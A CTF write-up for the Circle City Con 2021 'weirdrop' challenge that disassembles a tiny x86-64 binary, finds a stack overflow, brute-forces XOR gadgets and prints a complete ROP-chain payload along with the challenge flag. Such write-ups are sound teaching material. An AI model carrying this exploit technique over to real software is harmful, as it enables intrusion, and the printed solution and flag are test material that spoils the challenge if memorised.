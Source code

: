 ## weirdrop (Circle City Con 2021)

Didn't participate in the ctf, but I noticed that there is no writeup for this
challenge, so I decided to address that. :D


## Exploitable Service

We get an exploitable service binary.

```bash
[joey@gibson] file weird-rop
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped
```
Neato! The service is a 64-bit ELF. The binary is statically compiled and not
stripped, making reversing and exploitation much easier for us.


## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,
written in assembly. Here's the program entry:

```asm
┌ 21: entry0 ();
│           0x00401154      e887ffffff     call loc.vuln
│           0x00401159      48c7c03c0000.  mov rax, 0x3c
│           0x00401160      48c7c7000000.  mov rdi, 0
└           0x00401167      0f05           syscall
```
So far so good - the program calls `vuln()` then calls the `exit` system call
with return code `0`. If you are looking for an easy reference for the ABI
[bookmark
this](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md).

Let's take a look at `vuln()`:
```asm
│           0x004010e0      55             push rbp
│           0x004010e1      4889e5         mov rbp, rsp
│           0x004010e4      4883ec10       sub rsp, 0x10
│           0x004010e8      48c7c0020000.  mov rax, 2
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ; "/flag.txt"
│           0x004010f7      48c7c6020000.  mov rsi, 2
│           0x004010fe      48c7c2000000.  mov rdx, 0
│           0x00401105      0f05           syscall
```
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't actually
using libc, I'm just using libc functions to make the reversed code easier to
look at. You can find the definitions of flags like `O_RDWR` in `/usr/include`
(e.g. `/usr/include/asm-generic/fcntl.h`).

```asm
│           0x00401107      4883c030       add rax, 0x30
│           0x0040110b      880424         mov byte [rsp], al
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa
│           0x00401113      48c7c0010000.  mov rax, 1
│           0x0040111a      48c7c7010000.  mov rdi, 1
│           0x00401121      4889e6         mov rsi, rsp
│           0x00401124      48c7c2020000.  mov rdx, 2
│           0x0040112b      0f05           syscall
```

At this point the `rax` register holds the file descriptor returned by the
`open` syscall. The program adds `0x30` to the file descriptor, which is a
low-tech way of turning a digit into its ASCII representation (`0x30`
represents zero and so on). We store this value on the stack and append `\n` to
it. The program then outputs this number to the stdout: `write(STDOUT_FILENO,
stack_pointer, 2);`

```asm
│           0x0040112d      48c7c0000000.  mov rax, 0
│           0x00401134      48c7c7000000.  mov rdi, 0
│           0x0040113b      4889e6         mov rsi, rsp
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8
│           0x00401145      0f05           syscall
│           0x00401147      48c7c7000000.  mov rdi, 0
│           0x0040114e      4883c410       add rsp, 0x10
│           0x00401152      5d             pop rbp
└           0x00401153      c3             ret
```
Boils down to this:
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes on the stack, nulls out
the `rdi` register, does some final cleanup, and returns. Obviously this is the
vulnerability - we can overwrite the return address on the stack and gain
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that
easy 300 points right? Let's see here...

```asm
  0x00401000                 5e  pop rsi
  0x00401001                 c3  ret

  0x00401002     48c7c000000000  mov rax, 0
  0x00401009                 c3  ret
```

Cool cool.

```asm
  0x0040100a     48c7c001000000  mov rax, 1
  0x00401011                 c3  ret

  0x004010db               0f05  syscall
  0x004010dd                 c3  ret
```

Nice!

```asm
  0x0040109b     4881f7cd030000  xor rdi, 0x3cd
  0x004010a2                 c3  ret

  0x004010d3     4881f79a020000  xor rdi, 0x29a
  0x004010da                 c3  ret
```
Uhm...

```asm
  0x004010cb     4881f7a3010000  xor rdi, 0x1a3
  0x004010d2                 c3  ret

  0x004010c3     4881f798010000  xor rdi, 0x198
  0x004010ca                 c3  ret
```
... okay?

26 `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation plan I chose was to take advantage of the open file
descriptor, telegraphed to us by the service, read the contents of the flag
file, and simply write it to standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`
for the `write` and `read` system calls respectively. We even have a gadget to
load the standard output file descriptor (`1`) into `rdi`.

However we still need to put the flag file descriptor in `rdi` and there is no
clear gadget candidate for this. Time for some XOR math!

I don't know about you, but I'm pretty lazy, so I just wrote a Python
script to bruteforce the needed XOR gadgets. (Note that since the `rdi`
register is nulled out, the first XOR gadget will just put the immediate value
into the register). The script permutes over every possible combination of XOR
gadgets and breaks when the value is found. `permute.py` is the script I wrote
for this task. Take a look - nothing too fancy there.

The flag file descriptor is always `5`, so we can just run `permute.py` once to
figure out the gadgets we need.

_If you are confused that the file descriptor is `5` and not `3` you are
not alone - it's weird. This is likely due to a little bit more code on the
server side that we don't get to see. (I think the challenge would have been
more interesting if the file descriptor was somewhat random. That way, we'd have
to dynamically determine which gadgets to use)._

```
[joey@gibson]$ ./permute.py 5
0x56 0x53
```
Great - so the xor gadgets that have these two operands is what we need. We
now have all of the key elements of our exploit. This is the ROP chain I
came up with:

```C
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!
    0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53
    0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56
    0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx
    0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value
    0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1
    0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
//  ...
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};
```

First 24 bytes are the filler for the stack - recall that the function subtracts
`0x10` from the stack pointer and pops a register. The first two gadets are the xor
gadgets we've determined with `permute.py`. The next gadget pops `0x19` into `rdx`,
which is the length of our read. Finally, we shove the `read` syscall number into
`rax` and call it. Then we simply use the gadgets to load the `write` syscall number
and place stdout file decriptor (`1`) as its first argument. The other two arguments
in registers `rsi` and `rdx` remain the same throughout the exploit. That's it!

```bash
[joey@gibson]$ ./exploit
CCC{math_is_hard_1234897}
```
